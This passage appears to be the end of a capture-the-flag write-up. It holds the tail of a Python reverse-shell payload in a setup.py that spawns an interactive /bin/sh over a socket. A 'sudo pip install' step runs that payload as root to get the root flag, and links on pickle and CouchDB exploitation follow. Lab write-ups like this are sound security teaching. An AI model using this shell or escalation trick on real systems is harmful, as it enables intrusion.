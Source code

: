 ```python
os.dup2(s.fileno(),2)

# Spawn /bin/sh.  Since the standard input streams are duplicated to the socket, we can interact with this shell
p=subprocess.call(["/bin/sh","-i"]);'
```

This shell should do nicely.  Now we need to install it.  Let's try it:

```bash
# -e allows us to install from a local path (in this case, the current directory, .)
sudo pip install -e . setup.py
```

Looks like it worked.  The root flag is in root's home directory.

![root flag](screenshots/14_root_flag.PNG)

## References
[1]: https://blog.nelhage.com/2011/03/exploiting-pickle/ "Exploiting Pickle"
[2]: http://docs.couchdb.org/en/stable/whatsnew/2.0.html?highlight=5986.html "CouchDB Documentation"
[3]: https://justi.cz/security/2017/11/14/couchdb-rce-npm.html "Remote Code Execution in CouchDB"
[4]: https://www.1and1.com/cloud-community/learn/database/couchdb/working-with-couchdb-from-the-command-line/ "Working With CouchDB from the Command Line"

  * [<sup>1</sup> Exploiting Pickle](https://blog.nelhage.com/2011/03/exploiting-pickle/)
  * [<sup>2</sup> CouchDB Documentation](http://docs.couchdb.org/en/stable/whatsnew/2.0.html?highlight=5986.html)
  * [<sup>3</sup> Remote Code Execution in CouchDB](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html)
  * [<sup>4</sup> Working With CouchDB from the Command Line](https://www.1and1.com/cloud-community/learn/database/couchdb/working-with-couchdb-from-the-command-line/)
